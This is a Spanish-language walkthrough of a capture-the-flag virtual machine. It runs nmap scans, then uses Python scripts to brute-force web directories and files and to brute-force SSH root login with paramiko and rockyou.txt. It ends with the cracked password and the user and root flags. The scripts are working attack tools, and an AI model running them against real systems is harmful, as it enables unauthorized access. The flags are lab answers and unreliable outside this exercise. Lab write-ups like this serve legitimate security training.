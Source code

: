## Buscamos puertos tcp activos.

>sudo nmap -sS -sV -O -p- 192.168.56.102 -oN >tcp                                                                                                               
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00075s latency).
>Not shown: 65533 closed tcp ports (reset)
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
>80/tcp open  http    nginx
>MAC Address: 08:00:2F (Oracle VirtualBox virtual NIC)
>Device type: general purpose
>Running: Linux 4.X|5.X
>OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
>OS details: Linux 4.15 - 5.6
>Network Distance: 1 hop


## Buscamos puertos Udp activos

>sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN >udp                                                                                  
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00067s latency).
>All 100 scanned ports on 192.168.56.102 are in ignored states.
>Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
>MAC Address: 08:00:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

## Usamos Curl...
curl -v http://192.168.56.

> Trying 192.168.56.102:80...
> Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
> Mark bundle as not supporting multiuse
>< HTTP/1.1 200 OK
>< Server: nginx
>< Date: Mon, 05 Dec 2022 20:30:15 GMT
>< Content-Type: text/html
>< Content-Length: 57
>< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
>< Connection: keep-alive
>< ETag: "5f-39"
>< Accept-Ranges: bytes
>< 

>Dont Overthink. Really, Its simple.
>        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

## Buscamos directorios mediante fuerza bruta con Python y requests.

```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.
```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt
```python
import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()
```
### Salida:
.
.
.
.
[-] root: fernanda
[-] root: westlife
[-] root: blondie
[-] root: sasuke
[-] root: smiley
[-] root: jackson
[+] root: simple

## El password es 'simple' para el usuario 'root'

>id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) 
>Flag user:HMV665sXzDS
>Flag root:HMVtyr543FG
